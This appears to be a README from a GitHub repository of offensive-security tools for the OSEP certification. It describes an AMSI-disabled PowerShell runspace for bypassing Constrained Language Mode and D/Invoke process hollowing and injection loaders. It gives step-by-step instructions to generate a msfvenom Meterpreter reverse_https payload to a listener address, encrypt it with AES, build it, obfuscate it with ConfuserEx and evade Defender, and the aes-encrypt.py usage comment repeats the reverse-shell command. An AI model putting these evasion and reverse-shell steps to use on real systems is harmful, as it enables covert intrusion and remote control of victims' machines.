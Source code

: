 ## InteractiveRunspace.cs

This is used to bypass CLM when you already have access to the system (like a reverse shell or RDP).  It provides a PS shell with AMSI disabled in "FullLanguage" mode that you can interactively execute commands in.


![InteractiveRunSpace Shell](https://github.com/superhac/OSEP/blob/main/images/interactiverunspaceshell.PNG)

## Powershell-Filetransfers-methods.md

Contains a list of PowerShell file transfer methods highlighting if they are "proxy aware" and if they work in when your in "ContrainedLanguageMode".

## dinvoke-phollow-aes.cs

Uses D/Invoke to hollow a process of your choosing. The default is "svchost".  This is based on the work of [FatCyclone D/Invoke in C#](https://github.com/FatCyclone/D-Pwn) with the AV bypasses stripped and I added AES128 ECB encryption.

*Note that msfvenon encoders don't work for this use-case. Do not encode your payload*

1. Create a msfvenom payload
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 EXITFUNC=thread -f raw -o ~/OSEP/shell.raw
```

2. Now AES 128 ECB encrypt your payload: (Note key is 16 chars.  No less or No more.)

```
python aes-encode.py --key 777456789abcdety --format csharp --file shell.raw
```

3. Take the output and put it into the VS project.  Also set your key.  Build it.
4. Then obfuscate with [ConfuserEx](https://github.com/mkaring/ConfuserEx).
5. PWN2OWN

*As of 11/30/2021 this passes Defender*

## dinvoke-pinject-aes.cs

Same as above except it uses process injection.  Default is "explorer". This is based on the work of [FatCyclone D/Invoke in C#](https://github.com/FatCyclone/D-Pwn) with the AV bypasses stripped and I added AES128 ECB encryption.

## aes-encrypt.py

Use this to encrypt you payloads with AES 128 ECB.  

```
# Usage:

# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 EXITFUNC=thread -f raw -o ~/OSEP/shell.raw

# python aes-encode.py --key 777456789abcdety --format csharp --file shell.raw

#

# ***** Note don't use msfvenom encoders with d/invoke process hollowing. It crashes process right on startup!!! ***

# Key size is 16 chars! No More or less
```
